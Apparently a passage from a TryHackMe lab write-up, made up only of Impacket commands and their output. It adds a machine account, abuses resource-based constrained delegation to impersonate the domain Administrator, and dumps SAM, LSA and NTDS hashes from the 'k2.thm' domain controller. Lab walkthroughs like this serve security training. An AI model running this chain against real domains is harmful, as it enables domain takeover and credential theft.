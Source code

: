 ```bash
:~/K2# python3.9 /opt/impacket/build/scripts-3.9/addcomputer.py -method SAMR -computer-name 'RESEARCHER$' -computer-pass 'OhMyGod!123' -dc-host K2RootDC.k2.thm -domain-netbios k2.thm 'k2.thm/o.armstrong:⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃'
Impacket v0.10.1.dev1+20230316.112532.f0ac44bd - Copyright 2022 Fortra

[*] Successfully added machine account RESEARCHER$ with password OhMyGod!123.
```

```bash
:~/K2# python3.9 /opt/impacket/build/scripts-3.9/rbcd.py -delegate-from 'RESEARCHER$' -delegate-to 'K2ROOTDC$' -action 'write' 'K2.thm/o.armstrong:⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃'
Impacket v0.10.1.dev1+20230316.112532.f0ac44bd - Copyright 2022 Fortra

[*] Accounts allowed to act on behalf of other identity:
[*]     ATTACKERSYSTEM$   (S-•-•-••-••••••••••-••••••••••-••••••••-••••)
[*] Delegation rights modified successfully!
[*] RESEARCHER$ can now impersonate users on K2ROOTDC$ via S4U2Proxy
[*] Accounts allowed to act on behalf of other identity:
[*]     ATTACKERSYSTEM$   (S-•-•-••-••••••••••••-••••••••••-••••••••-••••)
[*]     RESEARCHER$   (S-•-•-••-••••••••••-•••••••••••-••••••••-••••)
```

```bash
:~/K2# python3.9 /opt/impacket/build/scripts-3.9/getST.py -spn 'cifs/K2RootDC.k2.thm' -impersonate 'Administrator' 'k2.thm/RESEARCHER$:OhMyGod!123'
Impacket v0.10.1.dev1+20230316.112532.f0ac44bd - Copyright 2022 Fortra

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating Administrator
[*] 	Requesting S4U2self
[*] 	Requesting S4U2Proxy
[*] Saving ticket in Administrator.ccache
```

```bash
:~/K2# export KRB5CCNAME=Administrator.ccache
```

<p align="center">⋆⋆⋆⋆⋆⋆⋆⋆⋆⋆⋆⋆⋆⋆⋆⋆⋆⋆⋆⋆⋆⋆⋆⋆⋆⋆⋆⋆⋆⋆⋆⋆</p>

```bash
:~/K2# python3.9 /opt/impacket/build/scripts-3.9/secretsdump.py -k -no-pass 'k2.thm/Administrator@K2RootDC.k2.thm'
Impacket v0.10.1.dev1+20230316.112532.f0ac44bd - Copyright 2022 Fortra

[*] Service RemoteRegistry is in stopped state
[*] Starting service RemoteRegistry
[*] Target system bootKey: ⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:⋆⋆⋆⋆⋆⋆⋆⋆⋆⋆⋆⋆⋆⋆⋆⋆⋆⋆⋆⋆⋆⋆⋆⋆⋆⋆⋆⋆⋆⋆⋆⋆:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃:::
[-] SAM hashes extraction for user WDAGUtilityAccount failed. The account doesn't have hash information.
[*] Dumping cached domain logon information (domain/username:hash)
[*] Dumping LSA Secrets
[*] $MACHINE.ACC 
K2\K2ROOTDC$:plain_password_hex:...
K2\K2ROOTDC$:aad3b435b51404eeaad3b435b51404ee:⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃:::
[*] DPAPI_SYSTEM 
...
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:⋆⋆⋆⋆⋆⋆⋆⋆⋆⋆⋆⋆⋆⋆⋆⋆⋆⋆⋆⋆⋆⋆⋆⋆⋆⋆⋆⋆⋆⋆⋆⋆:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃:::
```